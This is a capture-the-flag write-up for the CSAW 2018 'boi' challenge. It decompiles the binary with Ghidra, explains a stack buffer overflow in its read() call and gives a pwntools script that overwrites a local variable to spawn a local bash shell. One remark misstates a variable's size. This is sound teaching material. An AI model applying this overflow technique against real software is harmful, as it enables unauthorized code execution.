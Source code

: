 # Boi - Nightmare


check file type
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2018_Quals_Boi$ file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

lets run it:
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2018_Quals_Boi$ ./boi 
Are you a big boiiiii??
safs
Sun 21 Mar 2021 19:11:14 IST
```
we can see that no matter what we enter we get datetime

lets reverse it with Ghidra
```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined4 local_28;
  int iStack36;
  undefined4 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0;
  local_30 = 0;
  local_20 = 0;
  local_28 = 0;
  iStack36 = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&local_38,0x18);
  if (iStack36 == -0x350c4512) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
we can see that if `iStack36 == -0x350c4512` so we can run shell `/bin/bash`.
easy to see that we have overflow in `read(0,&local_38,0x18);` because local_38 is type of int- 4 bytes and the buffer is 018=24 bytes

lets write script to overflow it and change the iStack36 value
```python 
#!/usr/bin/env python
from pwn import process, packing

def exploit():
    buffer = b'A' * 20 + packing.p32(0xcaf3baee)
    prs = process("/home/matan/Documents/hacking/nightmare/stackoverflow/Csaw_2018_Quals_Boi/boi")
    prs.send(buffer)
    prs.interactive()


if __name__ == '__main__':
    exploit()
```

Result
```console
/home/matan/Documents/hde65/web_requests/nightmare/boi.py
[x] Starting local process '/home/matan/Documents/hacking/nightmare/stackoverflow/Csaw_2018_Quals_Boi/boi'
[+] Starting local process '/home/matan/Documents/hacking/nightmare/stackoverflow/Csaw_2018_Quals_Boi/boi': pid 44685
[*] Switching to interactive mode
Are you a big boiiiii??
ls
beleaf.py  boi.py
```





